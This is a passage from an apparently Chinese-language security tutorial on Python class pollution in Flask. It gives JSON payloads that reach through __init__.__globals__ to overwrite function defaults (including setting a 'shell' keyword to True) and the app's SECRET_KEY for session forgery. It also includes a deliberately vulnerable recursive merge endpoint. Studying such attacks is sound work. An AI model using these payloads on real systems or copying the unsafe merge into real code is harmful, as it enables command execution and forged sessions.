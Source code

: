 所以我们就可以通过替换该属性，来实现对函数位置或者是键值默认值替换，但是前提条件是我们要替换的值是元组的形式：\`

```bash
payload = {
    "__init__" : {
        "__globals__" : {
            "demo" : {
                "__defaults__" : (True,)
            }
        }
    }
}
```

`__kwdefaults__`是以字典形式来进行收录：

```bash
payload = {
    "__init__" : {
        "__globals__" : {
            "demo" : {
                "__kwdefaults__" : {
                    "shell" : True
                }
            }
        }
    }
}
```

## 关键信息替换：

### flask 密钥替换：

如果我们可以对密钥进行替换，赋值为我们想要的，我们就可以进行任意的 session 伪造，这里因为 secret\_key 是在当前入口文件下面的，所以我们可以直接通过`__init__.__globals__`获取全局变量，然后通过 app.config\["SECRET\_KEY"\]来进行污染：下面用一下师傅的示范的板子

```bash
from flask import Flask,request
import json

app = Flask(__name__)

def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

class cls():
    def __init__(self):
        pass

instance = cls()

@app.route('/',methods=['POST', 'GET'])
def index():
    if request.data:
        merge(json.loads(request.data), instance)
```
